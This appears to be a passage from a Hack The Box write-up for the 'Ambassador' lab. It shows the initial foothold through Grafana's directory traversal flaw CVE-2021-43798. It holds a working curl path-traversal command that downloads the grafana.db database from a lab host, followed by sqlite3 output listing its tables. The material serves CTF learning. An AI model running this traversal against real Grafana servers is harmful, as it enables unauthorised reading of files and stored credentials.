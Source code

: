 ![picture 2](/assets/images/76dd9d81c33ca245bbd4f51b554b3b7ee0fc33c8f970a36ee2cb352d7321c31d.png)  

# Initial foothold - getting access as "developer"
## Grafana - Directory Traversal and Arbitrary File Read - CVE-2021-43798 

Grafana is vulnerable to 2021-43798 (Directory Traversal and Arbitrary File Read). I've used following exploit https://www.exploit-db.com/exploits/50581, we can however also just use curl. 

```
curl --path-as-is http://10.10.11.183:3000/public/plugins/barchart/../../../../../../../../../../../../../var/lib/grafana/grafana.db -o db.db
```

Request above returns grafana database, which we can read localy.

```
┌──(luka㉿yokai)-[~/htb/boxes/ambasador]
└─$ sqlite3 db.db 
SQLite version 3.39.4 2022-09-29 15:55:41
Enter ".help" for usage hints.
sqlite> .tables
alert                       login_attempt             
...     
dashboard_tag               team_member               
dashboard_version           temp_user                 
data_source                 test_data                 
kv_store                    user                      
library_element             user_auth                 
library_element_connection  user_auth_token   
```
